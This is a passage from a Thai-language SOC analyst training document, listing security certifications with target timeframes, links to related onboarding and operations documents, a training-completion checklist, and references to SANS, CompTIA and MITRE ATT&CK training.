| GIAC GSOC | SANS | กลาง | ภายใน 1 ปี |
| SC-200 | Microsoft | กลาง | ภายใน 6 เดือน |
| BTL1 | Security Blue Team | เริ่มต้น–กลาง | ภายใน 6 เดือน |

---

## เอกสารที่เกี่ยวข้อง

- [เส้นทางการอบรม Analyst](Analyst_Onboarding_Path.th.md)
- [โครงสร้างทีม SOC](../06_Operations_Management/SOC_Team_Structure.th.md)
- [คู่มือการจำลอง](../09_Simulation_Testing/Simulation_Guide.th.md)
- [แบบฟอร์ม Incident Report](../11_Reporting_Templates/incident_report.th.md)

### Training Completion Tracking

| Module | Required | Completed |
|:---|:---|:---|
| SOC Overview | ✅ | ☐ |
| SIEM Basics | ✅ | ☐ |

## อ้างอิง

- [SANS SOC Analyst Training](https://www.sans.org/cyber-security-courses/)
- [CompTIA CySA+](https://www.comptia.org/certifications/cybersecurity-analyst)
- [MITRE ATT&CK Training](https://attack.mitre.org/resources/training/)
